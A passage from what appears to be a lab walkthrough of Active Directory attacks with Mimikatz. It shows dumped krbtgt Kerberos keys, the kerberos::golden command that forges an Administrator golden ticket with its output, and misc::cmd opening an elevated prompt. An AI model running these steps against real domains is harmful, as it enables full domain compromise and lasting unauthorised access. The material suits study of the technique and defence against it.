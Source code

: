 ```cmd
    28  ca006400aefe845da46b137b5b50f371
    29  15a607251e3a2973a843e09c008c32e3 

 * Kerberos
    Default Salt : CONTROLLER.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 64ef5d43922f3b5d

 * Kerberos-Newer-Keys
    Default Salt : CONTROLLER.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
      aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
      des_cbc_md5       (4096) : 64ef5d43922f3b5d

 * NTLM-Strong-NTOWF
    Random Value : 666caaaaf30081f30211bd7fa445fec4 
```

#### Create a Golden Ticket

1) `kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`

```cmd
mimikatz # kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfd
f /id:500
User      : Administrator 
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 6/28/2021 9:43:47 AM ; 6/26/2031 9:43:47 AM ; 6/26/2031 9:43:47 AM
-> Ticket : ticket.kirbi

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Final Ticket Saved to file !
```

2) Open a new command prompt with elevated privileges to all machines with `misc::cmd`:

```cmd
mimikatz # misc::cmd 
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF7609443B8
```
